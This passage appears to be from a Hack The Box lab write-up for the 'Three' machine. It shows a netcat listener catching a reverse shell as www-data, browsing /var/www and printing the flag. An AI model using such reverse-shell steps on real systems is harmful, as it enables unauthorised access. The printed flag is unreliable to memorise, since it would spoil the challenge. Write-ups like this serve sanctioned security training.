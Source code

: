 
	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.32]─[scrage@htb-we0ubgl4p1]─[~]
	└──╼ [★]$ nc -nvlp 1337
	listening on [any] 1337 ...
	connect to [10.10.14.32] from (UNKNOWN) [10.129.216.181] 47650
	bash: cannot set terminal process group (1507): Inappropriate ioctl for device
	bash: no job control in this shell
	www-data@three:/var/www/html$

After sniffing around, we find the flag.txt under the `/var/www` folder:

	www-data@three:/var/www$ ls
	ls
	flag.txt
	html
	www-data@three:/var/www$ cat flag.txt
	cat flag.txt
	a980d99281a28d638ac68b9bf9453c2b



https://www.hackthebox.com/achievement/machine/2057492/489
![[Pasted image 20240901134959.png]]